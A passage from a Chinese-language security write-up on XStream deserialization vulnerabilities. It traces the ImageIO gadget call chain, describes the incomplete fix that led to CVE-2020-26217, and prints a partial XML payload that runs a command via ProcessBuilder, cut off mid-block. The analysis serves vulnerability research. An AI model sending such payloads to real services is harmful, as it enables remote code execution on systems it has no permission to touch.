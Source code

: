 从这个调用栈可以看出来，漏洞的触发入口和TreeMap、sorted-set有点类似。TreeMap漏洞的触发在comparable接口，XStream在反序列化完map中的entry之后会将entry put进TreeMap中，TreeMap中put方法调用comparable接口的方法，从而触发动态代理的执行。

ImageIO这个调用链会复杂很多，但漏洞的入口在于也是反序列化完entry之后，会将entry put进hashmap中，然后put方法中会调用hash方法

![image-20201118115705536](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144807-451003.png)

而hash方法中会调用key.hashcode方法，

![image-20201118145408614](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144806-623816.png)

最后层层调用到Base64Data.get方法。

![image-20201118145639131](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144817-655779.png)

然后是javax.crypto.CipherInputStream的read方法，最后到ImageIO$ContainsFilter的filter方法，触发反射执行

![image-20201118150229664](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144820-233335.png)

###### 修复

1.4.10之后的版本都无法使用这个POC，只禁了javax.crypto，也就是说只禁了中间一环没有把入口跟漏洞出发点ImageIO禁掉。这就导致了CVE-2020-26217。

![image-20201117174442916](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144822-911001.png)

##### CVE-2020-26217

是S2-052的变种，payload如下：

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Itr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>calc</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
```